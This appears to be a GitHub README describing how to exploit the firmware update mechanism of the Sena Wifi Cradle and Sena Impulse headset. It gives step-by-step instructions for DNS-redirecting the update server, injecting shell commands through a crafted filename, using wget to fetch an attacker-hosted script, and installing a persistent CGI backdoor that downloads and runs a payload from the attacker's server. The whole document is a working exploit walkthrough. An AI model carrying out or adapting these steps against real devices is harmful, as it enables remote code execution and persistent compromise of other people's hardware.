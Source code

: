 # PWNing the Sena Wifi Cradle and its Derivatives
###(as tested on the Sena Impulse Wifi update part)

IMPORTANT: Make sure all text files got unix linefeeds

##Initial entering&PWNing (Sena Impulse):
    * Doing a local DNS redirect of ```firmware.sena.com``` to your own LAN ip.
    * Create a folder ```senabluetoothmanager```.
    * Create a folder ```WiFiCradle/impulse```
    * Create a file check.cdat with following content: ```SENA
``` (yes, the linefeed at the end matters)
    * Download firmware.sena.com/senabluetoothmanager/Firmware and save it at the same folder on your local server.
    * Replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";any_command_here```.  
    That line change allows injection of arbitrary commands.
    * Connect the Sena Impluse to the WiFi via the app or via manually doing the app commands.
## Getting Persistence
    * copy the provided install.sh and PWNa.zip to the root directory of your server.
    * rename install.sh to index.html (needed to bypass a quirk)
    * In the Firmware index file replace the filename after the last colon on Lines containing ```Impulse-v1.*.img``` with ```I";wget firmware.sena.com;chmod +x index.html```.
    * Trigger a firmware update. It will seemingly succeed or "fail". Instead it ran the injected command.
    * open https://IP_OF_SENA_IMPULSE/cgi-bin/index.html to install the persistence.
    * Reboot and you got a file under https://IP_OF_SENA_IMPULSE/cgi-bin/exploit.sh which downloads a payload.sh from the root of your webserver.
